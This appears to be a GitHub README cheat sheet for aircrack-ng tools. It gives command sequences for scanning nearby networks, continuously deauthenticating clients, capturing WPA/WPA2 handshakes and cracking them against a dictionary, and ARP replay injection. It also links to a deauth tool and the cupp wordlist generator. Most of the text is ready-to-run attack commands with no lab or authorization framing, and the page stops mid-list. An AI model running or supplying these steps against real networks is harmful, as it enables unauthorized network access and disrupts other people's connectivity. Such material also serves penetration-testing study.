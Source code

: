 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `XX:XX:XX:XX:XX:XX` is the bssid of target network
- `-c X` is the channel of target network

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 5 -a 00:14:6C:7E:40:80 mon0
(wait for a few seconds)
aircrack-ng -w /path/to/dictionary out.cap
```

## ARP request

```
airodump-ng -c 6 -w out --bssid 00:13:10:30:24:9C mon0
aireplay-ng -0 10 -a 00:13:10:30:24:9C mon0
aireplay-ng -3 -b 00:13:10:30:24:9C -h 00:09:5B:EB:C5:2B mon0
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [cupp](https://github.com/lucthienphong1120/cupp)
- 




